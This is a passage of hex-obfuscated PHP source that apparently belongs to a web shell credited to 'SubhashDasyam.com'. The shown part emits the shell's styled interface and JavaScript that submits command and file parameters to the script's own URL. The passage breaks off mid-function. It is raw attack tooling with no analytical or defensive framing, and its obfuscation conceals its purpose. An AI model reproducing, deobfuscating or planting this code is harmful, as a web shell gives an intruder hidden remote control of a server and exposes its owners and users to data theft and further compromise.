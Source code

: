 Sh\x65ll\x20V.";$dekertxrrzeg="\x6d";$rsbmccxccuk="\x75\x69\x64";echo VERSION;${"\x47\x4c\x4fB\x41\x4c\x53"}["\x78j\x73c\x75q\x67vk\x6e\x75"]="c\x77\x64_\x6c\x69\x6e\x6b\x73";$ngiqrimfoog="\x63o\x6c\x6f\x72";$gxpcucdkyd="m\x69\x6c\x6c\x69nk";echo "-Subha\x73h\x44\x61sy\x61m\x2ecom</title>\x20\n<\x73t\x79\x6c\x65> \n\x20\x20 \x20\x62ody {b\x61\x63\x6b\x67\x72\x6f\x75\x6ed-\x63olo\x72:#\x300\x30\x3bc\x6f\x6c\x6fr:\x23ff\x66\x3b} \n \x20\x20\x20\x62\x6fdy,td,\x74\x68\x20\x20 \x20{\x20\x66\x6f\x6et: 9p\x74\x20\x4c\x75c\x69\x64a,V\x65\x72da\x6e\x61;\x6dargin:\x30;ve\x72\x74ical-al\x69\x67\x6e:to\x70;\x20}\x20\n\x20   \x73p\x61n,\x681,\x61  \x20\x20{ co\x6c\x6fr:";$ejerddvxbdm="\x72e\x6c\x65ase";echo ${${"\x47L\x4f\x42\x41L\x53"}["\x62c\x62\x67lk\x71f\x71\x63\x78"]};echo " \x21\x69mpor\x74ant;\x20} \n    s\x70\x61n    \x20 \x20\x20{\x20\x66\x6fn\x74-\x77ei\x67ht: b\x6f\x6c\x64er; } \n\x20\x20 \x20h1 \x20  \x20   \x20\x20 \x20{ \x62\x6f\x72d\x65\x72:\x31px \x73o\x6cid ";${"G\x4c\x4fBAL\x53"}["\x78\x73\x76\x71\x70\x79\x6b\x6a\x67ehw"]="free\x53pa\x63\x65";$juisftq="\x74o\x74\x61\x6c\x53p\x61c\x65";$rokmunwuggd="\x6d\x65\x6e\x75";echo ${${"G\x4cOB\x41\x4c\x53"}["\x62\x63b\x67\x6c\x6b\x71\x66q\x63\x78"]};echo ";\x70add\x69\x6e\x67:\x202\x70x 5\x70\x78;\x66ont:\x20\x314\x70t V\x65rda\x6ea\x3b\x6d\x61rgin:\x30\x70x;\x20} \n  \x20 \x64iv\x2eco\x6ete\x6et \x20  {\x20pa\x64\x64\x69ng: \x35p\x78;\x6dar\x67\x69n-l\x65\x66\x74:5\x70x;} \n   \x20\x61 \x20\x20\x20\x20 \x20   \x20 { tex\x74-\x64e\x63\x6fr\x61t\x69\x6f\x6e:non\x65\x3b\x20}\x20\n \x20  \x61:hov\x65r  \x20   \x20 {\x20b\x61ckgr\x6fu\x6e\x64:\x23f\x66\x30\x30\x30\x30;\x20} \n\x20\x20 \x20.m\x6c\x31 \x20 \x20\x20   {\x20\x62\x6f\x72\x64e\x72:1px\x20s\x6f\x6ci\x64 #4\x34\x34\x3b\x70ad\x64i\x6e\x67:5\x70x;margin:0;\x6f\x76\x65\x72\x66l\x6f\x77:\x20a\x75to; } \n \x20\x20\x20\x2eb\x69\x67\x61rea    {\x20w\x69d\x74\x68:\x31\x300%;heig\x68t:\x32\x35\x30\x70x\x3b\x20} \n\x20\x20  \x69\x6eput,\x20\x74\x65\x78\x74\x61rea, \x73e\x6cect\x20\x20  {\x20\x6dargin:\x30;col\x6f\x72:\x23\x30\x30f\x66\x30\x30\x3b\x62\x61\x63\x6b\x67\x72ound-c\x6f\x6co\x72:#00\x30;\x62\x6fr\x64\x65r:\x31p\x78\x20so\x6c\x69\x64 ";${"GL\x4fBA\x4cS"}["i\x76\x75\x63t\x76\x6f\x6d\x63\x6a"]="m\x69\x6c\x6c\x69\x6e\x6b";${"\x47L\x4f\x42\x41\x4c\x53"}["\x79\x77\x79p\x73\x71j\x79"]="\x69\x74\x65\x6d";echo ${$ngiqrimfoog};$zslmanpgkvpu="m";${"G\x4c\x4fB\x41LS"}["\x73qg\x65i\x6cc\x71\x6f\x71\x66"]="\x74o\x74a\x6c\x53\x70\x61\x63e";echo "\x3b\x20font:\x209pt\x20\x4d\x6fn\x6fs\x70a\x63\x65,\x22C\x6fur\x69\x65r N\x65w\"; } \n\x20\x20  fo\x72m    \x20\x20\x20\x20{ m\x61\x72\x67\x69\x6e:\x30px;\x20} \n\x20   \x23to\x6fl\x73Tb\x6c\x20\x20\x20 { \x74e\x78t-al\x69\x67n:\x63\x65n\x74er\x3b } \n\x20 \x20\x20.tool\x73\x49n\x70  \x20\x20{\x20wi\x64\x74h:\x20\x380%; } \n \x20\x20 \x2emai\x6e \x74\x68\x20 \x20\x20{text-a\x6cign:l\x65\x66\x74;}\x20\n\x20\x20\x20\x20\x2em\x61\x69\x6e tr:\x68o\x76\x65r{b\x61\x63\x6b\x67\x72\x6fu\x6e\x64-c\x6flo\x72:#5e5e5\x65;} \n \x20  \x2em\x61in \x74d,\x20\x74h{v\x65\x72\x74\x69\x63\x61l-a\x6cig\x6e:m\x69d\x64\x6ce\x3b} \n\x20 \x20\x20p\x72e\x20\x20   \x20 \x20 \x20\x20\x20{fon\x74-\x66amily:\x43ourie\x72,\x4d\x6f\x6eo\x73p\x61\x63\x65\x3b} \n\x20   #\x63ot\x5f\x74\x6c_\x66\x69\x78e\x64{\x70o\x73\x69\x74io\x6e:\x66i\x78\x65d;bo\x74\x74\x6f\x6d:\x30\x70\x78;\x66ont-\x73iz\x65:12\x70x\x3b\x6c\x65\x66\x74:0p\x78\x3bp\x61dd\x69ng:4\x70\x78 \x30;c\x6c\x69\x70:_to\x70:exp\x72es\x73i\x6fn(\x64o\x63\x75m\x65nt.\x64oc\x75\x6de\x6etElem\x65n\x74\x2escro\x6clTo\x70+\x64\x6f\x63u\x6d\x65n\x74.\x64oc\x75me\x6et\x45le\x6d\x65nt\x2e\x63li\x65nt\x48\x65\x69\x67ht-\x74hi\x73.cl\x69ent\x48\x65i\x67\x68\x74)\x3b\x5f\x6ceft:\x65\x78pre\x73\x73ion(d\x6f\x63\x75m\x65n\x74.d\x6f\x63umentE\x6ce\x6de\x6e\x74\x2esc\x72o\x6cl\x4c\x65f\x74\x20+ \x64\x6f\x63ume\x6e\x74\x2ed\x6fc\x75\x6den\x74\x45l\x65me\x6e\x74\x2ec\x6cien\x74W\x69d\x74h - \x6ff\x66\x73\x65\x74\x57\x69\x64th)\x3b} \n\x3c/\x73t\x79le\x3e \n\x3cs\x63\x72ip\x74\x3e\x20\n\x20\x20 \x20f\x75ncti\x6fn \x73\x65t(\x61,\x63,p1,\x70\x32,\x703,\x63\x68\x61rs\x65\x74)\x20{ \n \x20\x20\x20\x20 \x20\x20if(a \x21\x3d \x6e\x75ll)\x64\x6fc\x75\x6dent\x2e\x6df.a\x2ev\x61l\x75\x65=\x61\x3b\x20\n\x20\x20\x20\x20  \x20 \x69\x66(c\x20\x21=\x20\x6eul\x6c)\x64ocu\x6de\x6et\x2e\x6d\x66.c.\x76alue\x3dc\x3b \n\x20  \x20    \x69f(p1\x20!\x3d\x20n\x75\x6cl)\x64\x6f\x63\x75\x6d\x65\x6e\x74.\x6d\x66.\x70\x31.\x76al\x75e\x3dp\x31; \n\x20 \x20 \x20\x20\x20 if(p2\x20!\x3d null)do\x63u\x6d\x65nt\x2em\x66.p\x32.va\x6cue=\x70\x32\x3b \n   \x20\x20\x20  if(p3 !\x3d \x6e\x75l\x6c)docu\x6de\x6e\x74.\x6df\x2e\x703.\x76\x61\x6c\x75e=\x70\x33; \n\x20\x20 \x20\x20\x20\x20 if(\x63h\x61\x72\x73et !=\x20\x6e\x75ll)do\x63\x75m\x65\x6et.\x6d\x66.\x63\x68\x61rs\x65\x74.v\x61\x6c\x75\x65=\x63h\x61rs\x65\x74\x3b \n\x20\x20\x20 } \n\x20  \x20\x66\x75n\x63ti\x6fn g(\x61,\x63,p1,\x702,\x703,charse\x74)\x20{ \n \x20  \x20 \x20\x20\x73e\x74(a,\x63,p\x31,p\x32,\x70\x33,\x63\x68\x61rs\x65\x74)\x3b \n\x20  \x20\x20\x20 \x20\x64oc\x75m\x65\x6e\x74\x2emf.\x73\x75b\x6d\x69t();\x20\n \x20  } \n\x20\x20\x20 f\x75n\x63\x74io\x6e \x61(a,\x63,p1,\x70\x32,p3,\x63h\x61rs\x65\x74) { \n    \x20   \x73et(\x61,c,\x701,p2,p\x33,\x63\x68a\x72\x73\x65\x74)\x3b\x20\n \x20 \x20 \x20  \x76a\x72\x20pa\x72a\x6d\x73\x20\x3d\x20\"\x61ja\x78=t\x72\x75\x65\x22\x3b \n  \x20\x20\x20\x20 \x20fo\x72(\x69=\x30;\x69\x3cd\x6fcu\x6d\x65n\x74.\x6d\x66\x2ee\x6ce\x6d\x65nts.le\x6e\x67\x74\x68\x3bi++)\x20\n       \x20\x20 \x20\x20p\x61\x72a\x6ds\x20+=\x20\x22\x26\x22+d\x6f\x63u\x6de\x6et.m\x66.\x65l\x65\x6d\x65n\x74s[\x69]\x2en\x61\x6d\x65+\x22=\x22+en\x63\x6fde\x55RIC\x6fmpon\x65nt(\x64\x6f\x63um\x65\x6e\x74.mf.el\x65\x6d\x65\x6et\x73[\x69].v\x61l\x75\x65)\x3b \n\x20\x20\x20\x20\x20 \x20\x20\x73\x72(\x27";echo $_SERVER["R\x45\x51\x55\x45\x53T_U\x52I"];echo "', \x70ar\x61\x6d\x73);\x20\n\x20   }\x20\n\x20\x20  \x66\x75\x6ecti\x6f\x6e sr(\x75rl,\x20p\x61r\x61ms) {